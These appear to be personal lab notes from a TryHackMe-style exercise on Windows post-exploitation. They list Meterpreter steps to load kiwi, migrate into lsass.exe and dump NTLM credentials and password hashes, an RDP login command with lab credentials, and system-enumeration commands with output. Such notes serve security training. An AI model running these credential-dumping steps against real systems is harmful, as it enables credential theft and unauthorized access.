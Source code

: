 ## Windows
in meterpreter 
`getuid` 

`load kiwi`
`ps` -> `lsass.exe` look for PID
`migrate 768`
`creds_msv` to retrieve LMNTLM creds
`hashdump` dump of passwd hashes :D

##### RDP
`remote desktop protocol`

`xfreerdp /u:Administrator /p:TryH@ckM3! /cert:ignore /v:3.249.251.67 /w:2000 /h:900`
`/h` & `/w` rozdzielczosc

`hostname`
```
EC2AMAZ-VRVGORG
```
sometimes usefull hostname

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
```
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
System Type:               x64-based PC
```

`wmic product get name,version,vendor`
```
Name                                                            Vendor                                   Version
Amazon SSM Agent                                                Amazon Web Services                      2.3.722.0
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.24.28127  Microsoft Corporation                    14.24.28127
Java 8 Update 241                                               Oracle Corporation                       8.0.2410.7
AWS Tools for Windows                                           Amazon Web Services Developer Relations  3.15.945
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.24.28127     Microsoft Corporation                    14.24.28127
Google Update Helper                                            Google LLC                               1.3.35.451
AWS PV Drivers                                                  Amazon Web Services                      8.3.2
Java Auto Updater                                               Oracle Corporation                       2.8.241.7
aws-cfn-bootstrap                                               Amazon Web Services                      1.4.31
```
versions of installed programs
